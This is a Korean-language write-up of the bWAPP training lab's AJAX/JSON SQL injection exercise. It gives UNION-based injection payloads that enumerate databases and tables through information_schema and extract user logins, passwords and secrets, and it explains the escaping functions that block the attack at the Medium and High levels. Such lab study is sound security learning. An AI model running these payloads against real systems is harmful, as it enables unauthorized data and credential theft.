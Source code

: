 ```yaml
---
layout: single
title: (bWAPP)SQL Injection (AJAX/JSON/jQuery)
categories: bwapp
tag: [sql injection, sql, injection, bwapp, bee box, GET, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```


# 검증 로직
> Low Level 에서는 보안 대책이 적용되어 있지 않다.

## Level - Low

![그림 1-1](/assets/image/bwapp/injection/sqli-ajax-archive/sqli-ajax/image.png)
- 검색창에 임의의 문자를 주고 전송하는 방식이 아닌 문자열 입력시 즉시 반영되는 AJAX 형태의 검색창이 존재
> Ajax는 비동기식 javascript, XML을 나타내며, 서버와의 통신에서 Refresh 없이 요청에 대한 리소스가 출력 되거나, 즉각적인 반을을 일으킨다.

![그림 1-2](/assets/image/bwapp/injection/sqli-ajax-archive/sqli-ajax/image2.png)

- '(싱글 쿼터) 를 통한 Error는 발생하지 않음.
- SQL Injection의 취약 유/무는 '와 함께 조건문 삽입을 통해 확인

```sql
' order by 8--
```

- 컬럼 수를 파악했다.
![그림 1-3](/assets/image/bwapp/injection/sqli-ajax-archive/sqli-ajax/image3.png)

- 이후 동일하게 출력 포지션, 데이터베이스, 테이블, 컬럼순으로 파악해 나갔다.

```sql
1' union select 1,schema_name,3,4,5,6,7 from information_schema.schemata--
```

```sql
1' union select 1,table_name,3,4,5,6,7 from information_schema.tables where table_schema='bWAPP'--
```

```sql
1' union select 1,table_name,3,4,5,6,7 from information_schema.tables where table_schema='bWAPP'--
```

```sql
1' union select 1,concat(id,0x3a,login),concat(password,0x3a,secret),4,admin,6,7 from bWAPP.users--
```

![그림 1-4](/assets/image/bwapp/injection/sqli-ajax-archive/sqli-ajax/image4.png)

- 성공적으로 데이터를 추출했다.

## Medium & High

```php
function sqli_check_1($data)
{
    return addslashes($data)
}

function sqli_check_2($data)
{
    return mysql_real_escape_string($data);
}
```

1. Medium Level 에서는 addslahes() 함수를 사용하여 ‘(싱글쿼터 )를 입력하게되면 \ 를 앞에 붙여 ‘(싱글쿼터) 사용을 막고 있다. 해당 search 구문인 ‘%%’ 로 이루어져 있어 공격이 성립되지 않는다.
2. High Level 에서는 mysql_real_escape_string() 함수를 사용하여 메타문자를 방지하고 있다.
3. 해당 문제에서 Medium 과 High Level은 공격이 성립되지 않는다.